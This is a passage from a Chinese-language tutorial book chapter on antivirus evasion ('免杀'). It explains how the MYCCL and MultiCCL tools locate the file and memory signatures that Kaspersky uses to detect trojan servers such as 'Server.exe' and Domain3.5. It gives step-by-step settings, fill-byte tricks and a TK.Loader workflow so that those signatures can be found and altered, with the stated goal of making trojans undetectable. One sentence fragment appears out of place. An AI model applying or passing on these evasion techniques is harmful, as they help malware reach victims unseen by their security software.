- 1. 为什么有时候我们定位的特征码不尽相同？除了已知的与卡巴的密码校验和扫描技术有关，还有没有其他原因？
- 2. 为什么定位特征码时，我总是没有其他人定位的精度高，或是经常出现一些奇怪的问题？

仅仅这两个问题，相信足以将大部分免杀爱好者拉入思索的海洋了。但是可以确定的是，上面的问题必然是有原因的，不可能是随机出现的问题。既然是有原因的，那么肯定就有办法找到原因。

要想找到上面的原因，我们还要从MYCCL的工作原理说起，为了避免麻烦，所以我在这里在附上一张MYCCL的工作原理示意图，如图4.51。

在了解原理的同时我们假设一个比较极端的例子，例如我们有如图4.52所示的一个文件，它的特征码“AA”正好位于文件的正中央，当我们的“分块个数”设为2时，就会出现如图4.53所示的流程，可以看见文件被填充到一半时正好会破坏掉特征码，此后文件无论怎样被填充都不会将特征码暴露出来，所以MYCCL得出了“文件一与文件二掩盖了特征码，特征码在24-48字节之间”这个结论，将半个文件都定位为特征码了。而当我们用这个结论来进行二次“复合定位特征码”时，将永远找不到带毒文件，因为这处特征码在定位时已经被一分为二了，所以说此时用 MYCCL 定位的最高精度就是这一半文件的大小了……


图 4.51


图 4.52


图 4.53

而当我们将文件数设为 3 时，则会出现如图 4.54 所示的流程，可见变异特征码位置的影响，定位出来的精度为三分之一文件长度，而即便使用了粗略的复合定位，特征码的长度仍然是整个文件的六分之一。我们可以发现，生成文件的个数虽然只多了 1 个，但是在这种特殊的情况下，特征码的精度却提高了三倍！那么如果我们将生成样本数设为 6 个呢？经过计算，特征码的精度与分为 3 个相比，6 个样本的精度则会提高 2 倍。

因此，我们不难发现分块个数对特征码定位的影响，但是如何才能让 MYCCL 按照我们所期望的方式工作呢？这就要靠我们自己的分析了……

就越精确，而且我们发现生成样本的个数与特征码的精度是成正比的，但是随着生成样本数逐渐增多，他对特征码精度的影响也在逐渐减小，因此在必要的时候选择一个比较折中的生成个数才是明智之举。


图 4.54

通过上面的讲解，相信大家都明白了生成个数对特征码定位成功率的影响，但是可能有读者会问，这仅仅是一个比较特殊的例子而已，恐怕我们很难碰到这种情况吧？我们上面使用的是特征码做的实验，如果在基于卡巴斯基的密码校验和扫描方式下做这个实验的话，鉴于密码校验和的特征码体积之大，原理之特殊，使我们碰到这种情况的几率就会成几何倍数增长了。

除此之外，MYCCL 的“填充”项也不容忽视，虽然大多数用默认的“00”即可，但是现在已经有杀毒软件可以识别这种填充方式，遇到特征偏移量位置全部被“00”填充后，杀毒软件就会自动释放出伪特征码，使我们在定位最后一处特征码时受阻，从而使整个免杀工作以失败告终，所以如果我们碰到类似情况，完全可以将填充字符改为其它的，例如“11”、“22”、“AA”等。

而且就概率上来讲，一个文件存在的空段或空白处往往占整个文件体积的10%左右，也就是说“00”字节在文件中出现的概率大约在10%，而其他16进制的那15个字符出现的概率仅为6.6%。因此特征码必然也会受其影响，因此出现特征码数据为“00”的几率还是比较大的，如果我们此时再用填“00”的方式来定位这种特征码，那是无论如何也定位不出来的！

一个简简单单的 MYCCL 的填充个数就引发出这么多的问题，如果我们读者在以后的学习中勤于思考，自然就会决胜他人于千里之外。

通过本节的学习，相信你在掌握 MYCCL 的文件特征码定位技巧之余，学到的其他东西要远远超过其本身，利用本节所讲解的知识，可以轻松澄清免杀领域内的一些模糊问题与错误的思路。但是即便如此，单就 MYCCL 来讲，还有一些问题等待大家去探索，例如分块个数的奇偶数问题……

### 4.5 MYCCL 查找内存特征码

见识到 MYCCL 的文件特征码查找技巧之后，再让我们看看 MYCCL 内存特征码查找的魅力。如果想定位内存特征码，也需要注意两个问题，一个是断网，另一个就是一定要先做好文件免杀，才能精确找到我们所需要的内存特征码，否则定位结果将会非常不可信。

现在我们已经有了一个做好文件免杀的木马服务端“Server.exe”，我们像进行文件免杀那样用 MYCCL 打开它，然后点击“内存复合特征码定位前勾选此处，否则勿选！”复选框，如图4.55；接下来点击“<生成>”按钮生成样本文件，最后用鼠标右键单击“目录路径”处，调出“用TK.Loader打开目录”菜单并单击即可，如图4.56。


图 4.55


图 4.56

随后便进入如图4.57所示的“内存辅助定位器TK.Loader”界面，点击“全部载入”按钮后即可进行内存查毒了，打开卡巴斯基后点击“扫描”栏里的“启动对象”选项，在右面的界面中取消“启动对象”与“扫描扇区”的选择，最后点击“开始扫描”即可让杀毒软件扫描内存了，如图4.58所示。


图 4.57


图 4.58


图 4.59

杀完毒之后，剩下的操作就与进行文件免杀一样了，内存定位的唯一不同之处就在于需要用TK.Loader将样本加载到内存，再就是杀毒软件杀毒时要选择内存扫描。需要注意的是，卡巴斯基并不能顺利的删除所有的木马文件，如果遇到不能删除的木马文件，则会弹出如图4.59所示的提示框，我们千万不要点“清除”选项，因为那样的话电脑会直接重启，我们先点击“跳过”，然后检查哪个文件还没有被成功删除，再到目录里手工删除即可，在执行手工删除前，最好先退出TK.Loader，否则的话我们有时手工删除时也同样删除不了。

关于MYCCL的免杀细节问题，基本上与文件免杀一致，都受到分块个数影响；只不过加载到内存后的文件形态会发生一些变化，这点我们不需要深入讨论。

### 4.6 MultiCCL 使用技巧

MultiCCL是niu-cow的作品，从2006年4月份的第一个0.010 alpha版一直到最近的1.205版，已经更新了25次，可见作者还是比较勤劳的。

## 第四章 特征码免杀技术

其实个人认为，MultiCCL 是迄今为止国内最强悍的一款特征码定位工具，有许多的设计思想值得我们免杀爱好者仔细研究。但是由于 MultiCCL 是命令行下的工具，所以一直以来没能受到太多人的关注。有人说命令行是高手的专利，对于这句话我持观望态度，所以虽然这款定位工具是那么的实用与强悍，在后面的章节中我仍然会用 MYCCL 做演示。

#### 4.6.1 MultiCCL 介绍

我们打开 MultiCCL 的文件夹后，会看到如图 4.60 所示的 7 个文件，他们的功能依次是：

- 1. multiCCL_f.exe：文件特征码定位程序
- 2. multiCCL_m.exe：内存特征码定位程序
- 3. multiCCL_inj.exe：注入代码块内存定位程序
- 4. memtest.exe：用作内存定位时加载 dll 或运行 exe 或向目标进程注入的辅助程序
- 5. AutoStartScanDll.dll：自动操作模块，使得部分操作自动化
- 6. multiCCL_readme.txt：本说明文档
- 7. multiCCL原理图示.htm：基本原理图示

除了这些之外在 BIN 文件夹里也有一些工具，不过并不需要 we 关注。对于上面介绍的这 7 个文件，我们能直接使用的就是前 4 个文件，由于是命令行下操作，所以无法截图为大家一一讲解，但是我们可以边学边用。



#### 4.6.2 MultiCCL 定位文件特征码

鉴于 MultiCCL 的灵活性与功能的多样化，很难一次就有效的将其介绍完毕，所以我将 MultiCCL 定位文件特征码的操作分为几部分来讲，由浅入深，由大体到细节，这样更有利于初学者的学习与理解。

##### 一、MultiCCL 定位文件特征码的简单应用

我们以 Domain3.5 针对卡巴斯基的免杀为例，用 MultiCCL 定位其特征码。首先打开用于定位文件特征码的 multiCCL_f.exe 工具，如图 4.61，然后我们在 Domain3.5 同一文件夹下建立一个“OUT”文件夹，名字大家可以随意取。通过界面信息的阅读，我们可以知道“请先关闭杀毒软件的实时监控”与“再把要定位的样本文件放到一个独立的目录下”这两条有用的信息，所以我们要先将杀毒软件的主动监控关闭，以防止对我们免杀工作产生干扰，并且要将 Domain3.5.exe 放在一个独立的文件夹下，以防止与它在同一文件夹里的文件影响我们免杀操作。

准备好后我们按任意键继续，到达如图 4.62 的第二步文件选择界面，我们选择 Domain3.5 并点击“打开”按钮即可，通过界面的提示，我们可以知道“‘打开’对话框可能隐藏在 cmd 界面的后面，没看到的话请到任务栏找一下”，可见作者还是蛮细心的。


图 4.61


图 4.62

选择完毕后会进入如图4.63所示的选择样本输出文件夹界面，我们按任意键就会如同第二步一样弹出一个“浏览文件夹”对话框，我们选择刚才建立的“OUT”文件夹即可。

通过界面我们可以看到“2.简单的做法是在样本所在目录下建一个名为 output 的子目录，然后在弹出的选择目录对话框点‘取消’”，这条有用的信息，我们下次在用 MultiCCL 时只要事先在目标文件的同一文件下建立一个名为“output”的目录，即可在选择目录这一步时直接点击“取消”，这样会提高一些效率。

